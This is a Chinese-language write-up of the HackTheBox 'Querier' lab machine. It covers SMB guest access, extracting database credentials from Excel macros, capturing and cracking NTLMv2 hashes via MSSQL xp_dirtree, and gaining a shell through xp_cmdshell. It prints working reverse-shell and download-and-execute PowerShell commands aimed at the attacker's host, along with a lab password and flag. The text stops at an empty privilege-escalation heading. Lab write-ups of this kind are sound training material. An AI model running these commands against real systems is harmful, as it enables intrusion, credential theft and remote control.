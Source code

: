 [TOC]

# Note —— Querirer

> victim: 10.10.10.125
>
> local: 10.10.14.4

## SMB

尝试默认账户和空账户

```bash
smbclient -L 10.10.10.125 -U ''%'' #无法登录
smbclient -L 10.10.10.125 -U 'guest'%''
```

guest登陆后可以看到Reports文件夹，进去看看

```bash
smbclient //10.10.10.125/Reports -U 'guest'%''
> ls
> get "Currency Volume Report.xlsm"
```

打开后看不到内容,xlsm格式说明其存在宏，我们以压缩包打开，在路径`xl\`下存在vba宏代码编译文件

对其进行反编译，使用**olevba**

```bash
sudo pip install -U oletools # 安装oletools分析套件
olevba vbaProject.bin
```

在代码中找到数据库的用户密码信息

- `Uid: reporting`
- `Pwd: PcwTWTHRwryjc$c6`
- `Database: volume`

## Mssql

利用得到的账号登陆，mssql的认证方式有用户认证和windows账号认证两种, 由于reporting账号是windows账号, 因此需要增加参数-windows-auth进行登陆并指定用户域querier/，特殊符号$需要进行转义

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth querier/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
```
mssql操作
```mssql
enable_xp_cmdshell --尝试启用shell
```

```
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
```

失败

```mssql
select IS_SRVROLEMEMBER ( 'sysadmin' ) --检查是有否SA权限
```

```
0
```

没有，继续搜索

### 窃取HASH——利用smb和xp_dirtree/xp_fileexist

先在本地打开responder(新学到的技术)

> responder 一款嗅探工具，用来窃取连接者的信息
>
> 连接上来的连接都返回回应，告诉对方没错就是我，来窃取NTLMv2哈希

```bash
sudo responder -I tun0
```

在受害机器上执行下方两句之一

```mssql
exec xp_dirtree '\\10.10.14.4\share\file'
exec xp_fileexist '\\10.10.14.4\share\file'
```

捕获到信息，保存至`res/NTLMv2.md`

将HASH复制到文件里，命名为hash，使用john破解

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
sudo john hash -w=/usr/share/wordlists/rockyou.txt
```

得到

```
corporate568     (mssql-svc)
```

### 高权限账号登录

```bash
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth querier/mssql-svc:corporate568@10.10.10.125
```

```mssql
select IS_SRVROLEMEMBER ( 'sysadmin' )
-- 1
enable_xp_cmdshell
--运行成功
xp_cmdshell whoami
xp_cmdshell systeminfo
-- 内容保存到res/systeminfo.md
```

## 使用Powershell脚本获取shell

### 尝试ps payload——失败

本机开启nc监听443端口和文件下载用HTTP

```bash
sudo python3 -m http.server
```

目标上执行命令

```mssql
xp_cmdshell powershell iex(New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.4:8000/reverse.ps1\")
```

被AV杀了.....阿这

### 尝试Powercat base64 payload——失败

本机生成独立payload并base64编码

```powershell
powercat -c 10.10.14.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```

```mssql
powershell -E <代码见res/systeminfo.md>
```

代码太长，无法执行，先当作文件传过去

```mssql
xp_cmdshell certutil -f -urlcache http://10.10.14.4:8000/encodedreverseshell.ps1 a.bat
```

执行失败，certutil没法用

### 尝试单行ps payload——失败

目标上执行命令

```mssql
xp_cmdshell powershell -c \"$client = New-Object System.Net.Sockets.TCPClient(''10.10.14.4'',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);    $sendback =(iex $data 2>&1 | Out-String );    $sendback2 = $sendback + ''PS '' + (pwd).Path + ''> '';    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);   $stream.Write($sendbyte,0,$sendbyte.Length);    $stream.Flush();}\"
```

木有反应，转义字符太多，太难顶，不折腾了

### 利用powercat直接payload——成功

```bash
xp_cmdshell powershell -noprofile IEX(New-Object System.Net.Webclient).DownloadString(\"http://10.10.14.4:8000/powercat.ps1\");powercat -c 10.10.14.4 -p 443 -e powershell
```

成功了，Powercat，永远的神

得到user.txt

```
c37b41bb669da345bb14de50faab3c16
```

## 提权

